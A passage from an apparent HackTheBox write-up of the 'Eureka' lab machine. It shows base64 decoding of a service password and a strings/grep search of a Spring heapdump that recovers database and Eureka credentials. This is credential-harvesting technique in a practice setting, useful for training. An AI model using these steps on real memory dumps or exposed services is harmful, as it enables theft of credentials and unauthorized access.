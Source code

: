 ```shell
Connection: keep-alive
User-Agent: Apache-HttpClient/5.3.1 (Java/17.0.11)
;cH!
2>s(!
httponly!
UP_3_!
multiple '%s' headers found!
Attempted read on closed stream.!
No more header elements available!
PacketReader.10!
```

First we found a `password` for the user `EurekaSrvr` in `Base64` format.

```shell
┌──(kali㉿kali)-[~]
└─$ echo 'RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==' | base64 -d
EurekaSrvr:0scarPWDisTheB3st
```

| Username   | Password          |
| ---------- | ----------------- |
| EurekaSrvr | 0scarPWDisTheB3st |

Since the `password` contained the name `0scar` in `leet speak`, we decided to search for the `password` but with `10 lines` above and below and found another `username` and `password`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eureka/files]
└─$ strings heapdump | grep '0scarPWDisTheB3st' -A 10 -B 10
management.endpoints.web.exposure.include!
spring.datasource.password!
0sc@r190_S0l!dP@sswd!
spring.datasource.username!
oscar190!
spring.datasource.url!
jdbc:mysql://localhost:3306/Furni_WebApp_DB!
spring.jpa.hibernate.ddl-auto!
none!
eureka.client.service-url.defaultZone!
http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/!
spring.cloud.inetutils.ignoredInterfaces!
enp0s.*!
spring.session.store-type!
jdbc!
spring.application.name!
org.springframework.http!
org.springframework.http.converter!
org.springframework.http.converter.json!
org.springframework.http.converter.xml!
org.hibernate!
```
